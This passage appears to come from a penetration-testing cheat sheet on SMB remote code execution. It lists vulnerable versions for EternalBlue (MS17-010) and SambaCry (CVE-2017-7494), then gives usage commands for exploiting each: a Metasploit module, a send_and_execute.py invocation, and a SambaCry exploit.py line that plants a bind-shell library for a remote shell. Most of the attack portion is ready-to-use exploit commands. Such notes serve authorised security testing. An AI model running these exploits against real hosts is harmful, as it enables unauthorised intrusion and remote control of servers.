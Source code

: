 If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.
The following versions are vulnerable:

```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

*EternalBlue*

The following exploit may be used to achieve RCE through the EternalBlue
vulnerability on Windows hosts:

```
# Windows 7 and Server 2008 R2 (x64) All Service Packs
msf> use exploit/windows/smb/ms17_010_eternalblue

# Windows NT 5.0 / 5.1 / 5.2 (Windows 2000 / Windows XP & Windows Server 2003)
# https://github.com/helviojunior/MS17-010
python send_and_execute.py <HOSTNAME | IP> <BINARY>
```

*SambaCry*

The following exploit may be used to achieve RCE through the SambaCry
vulnerability on Linux hosts:

```
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <HOSTNAME | IP> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```

--------------------------------------------------------------------------------

### References

https://www.petri.com/how-to-get-ntfs-file-permissions-using-powershell
